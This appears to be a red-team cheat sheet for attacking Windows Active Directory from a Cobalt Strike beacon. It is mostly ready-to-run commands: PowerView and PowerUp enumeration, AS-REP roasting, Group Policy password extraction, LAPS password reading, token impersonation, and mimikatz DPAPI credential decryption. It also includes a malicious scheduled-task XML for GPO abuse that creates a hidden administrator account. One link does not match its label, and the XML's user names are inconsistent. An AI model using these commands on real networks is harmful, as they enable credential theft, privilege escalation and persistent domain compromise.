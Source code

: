 ## **More fun in AD**

Below are a collection of items to run within a new environment to check for

In addition the bloodhound \(\(Invoke-BloodHound -CollectionMethod All -CompressData -RemoveCSV\) and basic net enumeration \(net view, computers, dclist, domain\_trusts\) try looking for the following:

Next try running

Powerup

```
powershell-import /opt/PowerSploit/Privesc/PowerUp.ps1
powershell Invoke-AllChecks
```

as well as hamrj0y's powerview tips

[https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993](https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993)

**Group functions**

`Get-NetLocalGroup -ComputerName MX01 -GroupName "Remote Management Users"`Gets members of users who can use WinRM on a specific machine.

`Get-NetLocalGroup -ComputerName MX01 -GroupName "Remote Desktop Users"`Gets members of users who can RDP to a specific machine.

**Determine if kerberos pre-auth is not set**

With Powerview

```
# check for users who don't have kerberos preauthentication set
Get-DomainUser -PreauthNotRequired
Get-DomainUser -UACFilter DONT_REQ_PREAUTH
```

With ASREPRoast

https://github.com/HarmJ0y/ASREPRoast

```
powershell-import ASREPRoast.ps1
Invoke-ASREPRoast -Verbose | fl
```

**PlainText Passwords**

```

#Retrieves the plaintext password and other information for accounts pushed through Group Policy Preferences.
powershell-import /opt/PowerSploit/Exfiltration/Get-GPPPassword.ps1
powershell Get-GPPPassword

https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPPassword.ps1
```

Note: Great cheat sheets for powerview, powerup,powersploit, etc.

```
https://github.com/HarmJ0y/CheatSheets
```

Note: A great tool for cracking hashes is kwprocessor

```
./kwp -z basechars/full.base keymaps/en.keymap routes/2-to-16-max-3-direction-changes.route > largekwpshift.txt
```

**LAPS:**

Note: This access is not currently in Bloodhound but is planned for a future update

```
#Import the script into memory
powershell-import /opt/LAPSToolkit/LAPSToolkit.ps1

#Searches through all OUs to see which AD groups can read the ms-Mcs-AdmPwd attribute
powershell Find-LAPSDelegatedGroups

#Parses through ExtendedRights for each AD computer with LAPS enabled and looks for which group has read access and if any user has "All Extended Rights".
powershell Find-AdmPwdExtendedRights 

#Displays all computers with LAPS enabled, password expriation, and password if user has access
powershell Get-LAPSComputers
```

[https://www.harmj0y.net/blog/powershell/running-laps-with-powerview/](https://www.harmj0y.net/blog/powershell/running-laps-with-powerview/)

[https://www.pentestgeek.com/penetration-testing/another-lap-around-microsoft-laps](https://www.pentestgeek.com/penetration-testing/another-lap-around-microsoft-laps)

**Token Notes:**

You can create a token and pass to obtain a shell when not in elevated process. Additionally, only psexec/psexec\_psh work with make\_token, not winrm or wmi

```
make_token .\Administrator P@ssw0rd
ls \\dc01\c$
```

**Credential Manager & DPAPI:**

If assume / know the machine is used for RDP, there might be saved credentials.

```
shell vaultcmd /listcreds:"Windows Credentials" /all
```

These credentials are stored within the users directory,:

```
powershell Get-ChildItem C:\Users\<User>\AppData\Local\Microsoft\Credentials\ -Force
```

Take the output from above command to get details

```
mimikatz dpapi::cred /in:C:\Users\<User>\AppData\Local\Microsoft\Credentials\<File Name from above command>
```

Get the Masterkey from cache

```
mimikatz !sekurlsa::dpapi
```

Obtain password

```
mimikatz dpapi::cred /in:C:\Users\<User>\AppData\Local\Microsoft\Credentials\<File Name from earlier command> /masterkey:<key from above command>
```

**Proxychains & RDP:**

```
beacon> socks 1337
nano /etc/proxychains.conf socks4 127.0.0.1 1337
proxychains xfreerdp /u:<username> /v:<IPADDRESS>
```

**GPO Permissions:**

[https://www.harmj0y.net/blog/redteaming/abusing-gpo-permissions/](https://www.harmj0y.net/blog/redteaming/abusing-gpo-permissions/)

```
powershell-import /opt/Empire/data/module_source/situational_awareness/network/powerview.ps1

#this outputs the GPOs applied to the WKS01 system
powershell Get-NetGPO -ComputerName WKS01
```

GPOs can also be viewed in blooodhound now, first type system name in the search field, click node then look at effective inbound GPOs, if one is hanging off from the rest then look into it by noting the GUID and then looking at the ouput of the poweshell command above

```
powershell Get-NetGPO | %{Get-ObjectAcl -ResolveGUIDs -Name $_.Name}
```

note the applicable  gpcfilesyspath and then  
 determine what you can edit and possibly upload a malicious ScheduledTasks.xml

Example Malicious XML

```
<?xml version="1.0" encoding="utf-8"?>
<ScheduledTasks clsid="{XXXXXXX-XXXX-XXXX-XXXX-XXXXXXXX}">
    <ImmediateTaskV5 clsid="{XXXXXXX-XXXX-XXXX-XXXX-XXXXXXXX}" name="OLDGPO" image="0" changed="2016-03-20 12:50:28" uid="{XXXXXXX-XXXX-XXXX-XXXX-XXXXXXXX}" userContext="0" removePolicy="0">
        <Properties action="C" name="OLDGPO" runAs="NT AUTHORITY\System" logonType="S4U">
            <Task version="1.3">
                <RegistrationInfo>
                    <Author>NT AUTHORITY\System</Author>
                    <Description></Description>
                </RegistrationInfo>
                <Principals>
                    <Principal id="Author">
                        <UserId>NT AUTHORITY\System</UserId>
                        <RunLevel>HighestAvailable</RunLevel>
                        <LogonType>S4U</LogonType>
                    </Principal>
                </Principals>
                <Settings>
                    <IdleSettings>
                        <Duration>PT10M</Duration>
                        <WaitTimeout>PT1H</WaitTimeout>
                        <StopOnIdleEnd>true</StopOnIdleEnd>
                        <RestartOnIdle>false</RestartOnIdle>
                    </IdleSettings>
                    <MultipleInstancesPolicy>IgnoreNew</MultipleInstancesPolicy>
                    <DisallowStartIfOnBatteries>false</DisallowStartIfOnBatteries>
                    <StopIfGoingOnBatteries>true</StopIfGoingOnBatteries>
                    <AllowHardTerminate>false</AllowHardTerminate>
                    <StartWhenAvailable>true</StartWhenAvailable>
                    <AllowStartOnDemand>false</AllowStartOnDemand>
                    <Enabled>true</Enabled>
                    <Hidden>true</Hidden>
                    <ExecutionTimeLimit>PT0S</ExecutionTimeLimit>
                    <Priority>7</Priority>
                    <DeleteExpiredTaskAfter>PT0S</DeleteExpiredTaskAfter>
                    <RestartOnFailure>
                        <Interval>PT15M</Interval>
                        <Count>3</Count>
                    </RestartOnFailure>
                </Settings>
                <Actions Context="Author">
                    <Exec>
                        <Command>powershell</Command>
                        <Arguments>-c "net user coolguy P@ssw0rd1234 /add; net localgroup administrators torch /add"</Arguments>
                    </Exec>
                </Actions>
                <Triggers>
                    <TimeTrigger>
                        <StartBoundary>%LocalTimeXmlEx%</StartBoundary>
                        <EndBoundary>%LocalTimeXmlEx%</EndBoundary>
                        <Enabled>true</Enabled>
                    </TimeTrigger>
                </Triggers>
            </Task>
        </Properties>
    </ImmediateTaskV5>
</ScheduledTasks>
```

**Resources:**

[https://rastamouse.me/2017/08/jumping-network-segregation-with-rdp/](https://rastamouse.me/2017/08/jumping-network-segregation-with-rdp/)

[http://www.harmj0y.net/blog/activedirectory/roasting-as-reps/](https://legacy.gitbook.com/book/d00mfist1/ctf/edit#)

[https://chryzsh.gitbooks.io/darthsidious/content/enumeration/powerview.html](https://chryzsh.gitbooks.io/darthsidious/content/enumeration/powerview.html)

